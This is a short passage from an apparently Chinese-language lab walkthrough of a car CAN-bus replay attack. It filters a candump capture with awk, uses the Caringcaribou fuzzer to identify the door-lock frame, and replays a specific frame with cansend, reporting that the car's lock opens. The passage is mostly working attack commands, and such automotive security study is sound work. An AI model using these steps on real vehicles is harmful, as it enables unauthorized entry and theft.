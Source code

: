 1.3 停止抓包并对抓到的数据进行处理

`cat candump.log | awk '{print $3}' > res.txt`

1.4 利用 Caringcaribou 工具进行重放攻击

`cc.py fuzzer identify res.txt`

1.5 根据汽车是否出现对应反应选择 y/n, 获取开关车门数据包

![图片](assets/1704762236-1ccc9d1170978705ac04387e2297e95b.png)

1.6 对开关车门数据包进行重放

`cansend can0 100#3d157d40d9000560`

观察到车锁成功被开启

![图片](assets/1704762236-9cd3d11e23314f2672baa061b180365e.png)
